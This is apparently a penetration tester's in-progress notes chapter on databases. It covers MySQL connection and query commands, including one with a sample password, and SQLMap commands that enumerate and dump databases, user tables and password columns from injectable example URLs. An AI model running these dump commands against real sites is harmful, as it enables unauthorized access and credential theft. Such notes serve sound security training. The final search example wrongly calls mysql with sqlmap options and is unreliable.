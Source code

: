 ```yaml
---
description: >-
  Databases vary widely, each requiring specific commands, tools, and syntax.
  This chapter provides guidance on navigating these differences.
---
```


# Databases

<mark style="color:red;background-color:yellow;">This chapter is in-progress.</mark>

<mark style="color:blue;">Check the index on the right to navigate this page more easily.</mark>

## Database Management Systems

### MySQL

Connect to a MySQL server

```bash
# Local service
mysql -u acuity -pSuperStr00ng!

# Remote service
mysql -u acuity -p -h <IP> -P 3306
```

List all databases

```sql
show databases;
```

Select a database

```sql
use name_of_database;
```

List all tables in the active database

```sql
show tables;
```

List content of a table

```sql
# List all content
select * from name_of_table;

# Define a more specific selection
select username, password from users where username = 'HTB';
```

### Microsoft SQL

### PostgreSQL



## Tools

### SQLMap

An open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. [https://sqlmap.org/](https://sqlmap.org/)

#### Basic Data Enumeration

```bash
# Check version, user, db name and admin permissions
sqlmap -u "http://www.acuity.lab/?id=1" --banner --current-user --current-db --is-dba
```

#### Table Enumeration

```bash
# Dump everything from MySQL server (no system databases) and require no user input
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs --batch

# Dump everything from a specific database
sqlmap -u "http://www.example.com/?id=1" -D database --dump

# Enumerate all tables within the specified DB
sqlmap -u "http://www.example.com/?id=1" --tables -D database

# Dump all data from the specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database

# Dump only specific columns from specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database -C name,password

# Limit rows dumped by ordinal numbers
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --start=2 --stop=3

# Dump data based on matched conditions
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name = 'acuity'"

# alternative
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name LIKE 'acu%'"
```

#### Search for columns, tables or databases

Switch `--search` needs to be used in conjunction with one of the following support options:

* `-C` following a list of comma-separated column names to look for across the whole database management system.
* `-T` following a list of comma-separated table names to look for across the whole database management system.
* `-D` following a list of comma-separated database names to look for across the database management system.

Example:

```bash
# Search for tables containg "cred" in their name across DBMS
mysql -u "http://www.example.com/?id=1" --search -T cred
```
